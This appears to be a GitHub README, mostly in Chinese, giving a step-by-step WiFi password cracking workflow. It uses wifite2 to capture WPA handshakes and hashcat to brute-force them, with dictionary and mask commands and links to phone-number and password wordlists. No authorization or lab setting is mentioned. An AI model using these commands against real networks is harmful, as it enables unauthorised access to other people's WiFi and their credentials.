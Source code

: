 ## step 0: Install Kali Linux in VMware workstation

KALI官网提供了虚拟机中的镜像，直接下载并导入VM就OK.

如果报错，用VM升级一下镜像

## step 1: 把USB无线网卡连接到虚拟机

## step 2: 捕获握手的网络包 -- wifite2

wifite2仓库链接 https://github.com/derv82/wifite2

wifite2捕获握手网络包的视频 https://www.youtube.com/watch?v=qpnpI_mF3Aw

### Error: Cannot find None with Mode:Monitor

<details>
<summary>Click to expand</summary>

```bash
└─$ sudo ./Wifite.py
[sudo] password for kali: 
   .               .    
 .´  ·  .     .  ·  `.  wifite 2.2.5
 :  :  :  (¯)  :  :  :  automated wireless auditor
 `.  ·  ` /¯\ ´  ·  .´  https://github.com/derv82/wifite2
   `     /¯¯¯\     ´    

 [!] Warning: Recommended app pyrit was not found. install @ https://github.com/JPaulMora/Pyrit/wiki
 [!] Warning: Recommended app hcxpcaptool was not found. install @ https://github.com/ZerBea/hcxtools
 [!] Conflicting processes: NetworkManager (PID 572), wpa_supplicant (PID 2746)
 [!] If you have problems: kill -9 PID or re-run wifite with --kill)

    Interface   PHY   Driver              Chipset                                                                                                                                            
 [!]  Exception: Cannot find None with Mode:Monitor                                                                                                                                          
                                                                                                                                                                                             
 [!] Exiting       
```
</details>

报错原因是存在进程冲突，按照提示在上述命令后加`--kill`

```bash
sudo ./Wifite.py --kill
```
## step 3: 暴力破解握手包 -- hashcat 

https://hashcat.net/hashcat/

### 先转换网络包格式

https://hashcat.net/cap2hashcat/

### 生成密码字典

https://weakpass.com/

https://github.com/conwnet/wpa-dictionary

phone number generator https://github.com/asaotomo/makephonedict

[python script](./script/phoneNumberGenerator.py)

### 跑包

**跑字典**
```ps
.\hashcat.exe -a 0 -m 22000 -o result.txt ..\672949_1694932864.hc22000 ..\phone_number_sh.txt
```

**根据掩码进行破解**

```ps
.\hashcat.exe -a3 -m 22000 -o result.txt ..\604\25413_1695390442.hc22000 -1 abcdefghijklmnpqrstuvwxyz0123456789 ?1?1?1?1?1?1?1?1 
```


## FAQ 

### Why wifite2 can't scan any AP(the Access Point is a router)?

Reboot the Kali linux

### hashcat

```
hiprtcCompileProgram is missing from HIPRTC shared library.
```
可以用，但是不知道用的是GPU，还是CPU?


## Useful Resources
